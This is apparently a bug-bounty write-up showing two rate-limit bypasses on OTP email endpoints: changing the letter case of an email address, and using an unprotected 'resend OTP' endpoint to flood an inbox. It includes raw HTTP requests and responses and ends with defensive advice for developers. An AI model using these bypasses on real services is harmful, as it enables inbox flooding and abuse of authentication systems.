

Rate Limit
Rate Limit Bypass
Date: 28/08/23Let's consider the application as example.com. The application includes a signup page where users provide details such as email, name, role, password, etc. Upon submission, the application sends the user an email containing an OTP and redirects them to the OTP submission page.
POST /auth-api/account/request-verify HTTP/2
Host: login.example.com
Cookie:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://example.com/
Content-Type: application/json;charset=utf-8
Request-Source: auth-ui-browser
Calling-Service: auth-ui-browser
Request-Id: clqx9202500022a75051ob8b7
X-Client-Type: App
Content-Length: 75
Origin: https://login.example.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Pwnfox-Color: green
Te: trailers
{"email":"luapap@penelopegemini.co.uk","name":"test user","overwrite":true}
I attempted to send the aforementioned request (Request-1) multiple times to obtain the OTP. After sending the request more than three times, the system responded with a "429 Too Many Requests" error.
HTTP/2 429 Too Many Requests
Date: Wed, 03 Jan 2024 05:07:58 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 33
Cf-Ray: 83f8b8a00e157a0c-PAT
Cf-Cache-Status: DYNAMIC
Access-Control-Allow-Origin: https://login.example.com
Strict-Transport-Security: max-age=15724800; includeSubdomains
Vary: Origin, Accept-Encoding
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Disposition
Ot-Tracer-Sampled: true
Ot-Tracer-Spanid: acd6b52c21a2f448
Ot-Tracer-Traceid: d57eb22998edf1f5
Ratelimit-Limit: 25000
Ratelimit-Remaining: 24999
Ratelimit-Reset: 2
Request-Id: clqx9202500022a75051ob8b7
Server-Timing: srtt;dur=312,trtt;dur=312
X-B3-Sampled: 1
X-B3-Spanid: acd6b52c21a2f448
X-B3-Traceid: 67d66950e8622e95d57eb22998edf1f5
X-Cf-Gateway-Url: QDE80621-v7.example.com
X-Ratelimit-Limit-Minute: 25000
X-Ratelimit-Remaining-Minute: 24999
Server: cloudflare
{"errorCode":"TOO_MANY_REQUESTS"}I understand that there is an implementation of rate-limit protection. Upon further investigation, I observed that changing the email address to another@mail.com successfully circumvented the rate-limit protection. This implies that the rate-limiting mechanism is applied to the email address rather than the IP address.
Hence, I attempted to verify if the email checking process is susceptible to case sensitivity. I modified the email address by changing the letter case to uppercase and tested various combinations of uppercase and lowercase characters (e.g., abc@mail.com, Abc@mail.com, AbC@mail.com, etc.). Surprisingly, the system treats these combinations as distinct email addresses.
In response, I received a "204 No Content" status code, indicating that the email was successfully sent. This suggests that the attempted variations in the email address, exploiting case sensitivity, were effective in bypassing the email triggering mechanism.
Let's consider another application as example2.com. The application features a password reset page where users provide their email. Upon clicking the submit button, the system sends an OTP to the provided email address and redirects the user to an OTP submission page.
POST /user-pass-setup/smart/email/confirmation HTTP/2
Host: www.example2.com
Cookie:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://example2.com/
Content-Type: application/json;charset=utf-8
Request-Source: auth-ui-browser
Calling-Service: auth-ui-browser
Request-Id: clqx9202500022a75051ob8b7
X-Client-Type: App
Content-Length: 75
Origin: https://www.example2.com/reset
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Pwnfox-Color: green
Te: trailers
{"email":"user@gmail.com"}The above mentioned endpoints are fully secure, implementing rate-limiting measures. After attempting the password reset process five times, the system responds with a "429 Too Many Requests" error, indicating that the rate-limiting protection is effectively restricting further attempts.
So, I moved to OTP submission page. On the OTP submission page, I observed a "Resend OTP" button. Upon intercepting the request, I noticed that the endpoint used to send the OTP differs from the previous one.
POST /user-pass-setup/smart/email-code/resending HTTP/2
Host: www.example2.com
Cookie:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://example2.com/
Content-Type: application/json;charset=utf-8
Request-Source: auth-ui-browser
Calling-Service: auth-ui-browser
Request-Id: clqx9202500022a75051ob8b7
X-Client-Type: App
Content-Length: 75
Origin: https://www.example2.com/reset
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Pwnfox-Color: green
Te: trailers
{"email":"user@gmail.com"}I attempted to send multiple requests, and surprisingly, there was no implementation of rate limiting at this particular endpoint. Consequently, my email inbox was flooded with OTP emails.
It's important to understand that sometimes developer use multiple differnt endpoints for a single task and unfortunately, developers might overlook implementing security measures on some of these endpoints. This oversight can potentially create vulnerabilities that attackers can exploit. It underscores the significance of a comprehensive security assessment and thorough testing across all endpoints to ensure a robust and resilient application.